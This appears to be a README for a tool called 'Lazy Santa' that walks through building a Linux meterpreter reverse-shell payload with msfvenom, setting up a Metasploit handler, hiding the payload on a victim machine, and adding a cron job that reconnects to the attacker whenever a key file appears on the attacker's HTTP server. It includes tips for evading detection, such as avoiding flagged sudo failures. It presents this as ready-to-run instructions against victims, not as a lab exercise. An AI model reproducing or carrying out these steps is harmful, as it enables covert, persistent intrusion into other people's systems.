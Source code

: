 # Lazy Santa

## Setting up the Payload

To make things nice and easy, we will be setting up a meterpreter right from the get go.  I have included an example payload, but you can make modifications as you see fit.  

```
msfvenom -p linux/x86/meterpreter_reverse_tcp lhost=192.168.98.160 lport=4444 -f elf -o coming_home.elf
```
Obviously you will need to change the `lhost` other than that it should work out of the box.


## Setting up Metasploit

In metasploit run the following commands individually:

```
use exploit/multi/handler
```
```
set payload linux/x86/meterpreter_reverse_tcp
```

Once all the options are tweaked for your set up, use:
```
run
```
or
```
exploit
```
to get everything in motion.  Now at this point you will just be waiting for the call home from the victim machine.

Remember that if you want to re-establish the connection you will need to leave a "key file" in the http server that you specified in the cron job.  If you don't want the victim to try and reconnect then make sure that you remove the key file or stop the http server to cause an other than `200` HTTP response code.  


## Getting the Victim Machine Ready

### The Payload

The first thing you will need to do is get the payload on the victim machine.  I like to use an already established meterpreter sessions for this. Once you have done that you will need to make sure that it can be executed.  The best way to do this is you use the `u+x` chmod flag.  Otherwise you may be prompted for a sudo password.  If you have not rooted the machine yet the failed sudo authentication will be flagged and may set off alarms.  By only making the current user be able to run it we can avoid that action getting denied and flagged.  

Use this:
```
chmod u+x [file_name]
```

Next hide this payload somewhere where it will not be stumbled upon unless someone is looking for it.  Be sure to specify the file path in the script that the cron job will call.  You could also hide the script that the cron job calls in the same location as the payload.  

### The Cron Job

Essentially we are creating a logic bomb.  When certain criteria are met then a meterpeter session is opened. As such, you could theoretically set the shell up around any trigger but for ease we will use cron to check in periodically.  

For adding this to the cron tab I have found better success using ssh instead of dropping into a shell from meterpreter.  There are definitely other ways, but if it works....

Also, I rarely try and set up cron jobs by hand.  Take it easy on yourself and use a cron job calculator to get everything just right.  Besides, you may only have one shot to get this right before your window of oppurtunity closes. Nail it the first time. [This site is useful for that purpose.](https://crontab.guru/)

Though if you just want this to run every minute it is pretty easy to remember:

```
* * * * * /path/to/file/
```

## Making it all work

### HTTPServer

The magic happens on the attackers machine.  Using a python module called SimpleHTTPServer we can set up a server that will contain our key file.  This is the server that the victim machine will call back to.  

First, for this to work you will need python3 installed:

```
sudo apt update -y && sudo apt upgrade -y && sudo apt autoremove -y && sudo apt install python3
```

To start the server:

```
python -m SimpleHTTPServer
```

Keep in mind that whatever directory you start the server in, is the content it will server.  I like to create a designated directory to run the server in.  If you want the victim machine to set up a new session:

```
touch /path/to/server/callme
```
If you have a session established, remove the key file so that the victim machine does not keep try to set up a session every time the cron job is run.

That is pretty much it.  Once the cron job is set then it will check at the specified time if the remote resource is available.  If it is, then it open the meterpreter session.  If not, then it waits until the next time, working in a loop until the logic is met.

I encourage you to take a look at the script to understand what is going on.  It is pretty simple but could prove useful down the road.
